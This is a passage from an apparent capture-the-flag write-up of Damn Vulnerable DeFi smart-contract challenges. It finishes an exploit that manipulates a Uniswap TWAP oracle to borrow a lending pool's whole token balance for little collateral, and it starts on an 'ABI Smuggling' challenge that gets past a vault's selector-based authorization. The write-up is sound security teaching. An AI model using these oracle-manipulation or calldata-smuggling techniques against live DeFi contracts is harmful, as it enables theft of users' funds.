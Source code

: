 ```javascript
                fee: FEE, // 0.3% fee tier
                recipient: player,
                deadline: block.timestamp,
                amountIn: dvtAmount,
                amountOutMinimum: 0, // Be careful with this in production!
                sqrtPriceLimitX96: 0
            });

        // Execute the swap
        wethAmountOut = swapRouter.exactInputSingle(params);

        // For safety, reset the allowance to 0
        TransferHelper.safeApprove(address(token), address(swapRouter), 0);
    }
```

We can check the required WETH deposit to get the million DVT tokens from the pool directly after the swap and see that it has not changed yet. Its still the original 3x amount of WETH deposit that is required. That is because our new manipulated price has not settled in the oracle yet.

```javascript
lendingPool.calculateDepositOfWETHRequired(1_000_000e18); // 3_000_000_e18
```

The requirements of the challenge allows us to wait for 114 seconds to let the price settle. After the price has settled we can see that the required deposit is now only 0.14 WETH. That means we can effort to buy all the DVT tokens from the pool with our small initial balance of 1 WETH.

```javascript
lendingPool.calculateDepositOfWETHRequired(1_000_000e18); // 0.14e18
```

Finally, we borrow the million DVT tokens from the pool and send them to the recovery account.

```javascript
lendingPool.borrow(1_000_000e18);
token.transfer(recovery, LENDING_POOL_INITIAL_TOKEN_BALANCE);
```

## 15 - ABI Smuggling

There is a vault with two different actions. One allows users to withdraw 1 DVT token every 15 days. The other is
for the owner to sweep all funds in case of emergency. The goal is to trick the authorization scheme to allow the player to sweep all funds from the vault.

### Authorization scheme

The `AuthorizedExecutor::execute` function reads the function selector of the action to execute and checks if the caller is authorized to execute the action. The selector is read from a fixed offset (100 bytes) from the `calldata`:

```javascript
bytes4 selector;

uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
assembly {
    selector := calldataload(calldataOffset)
}
```
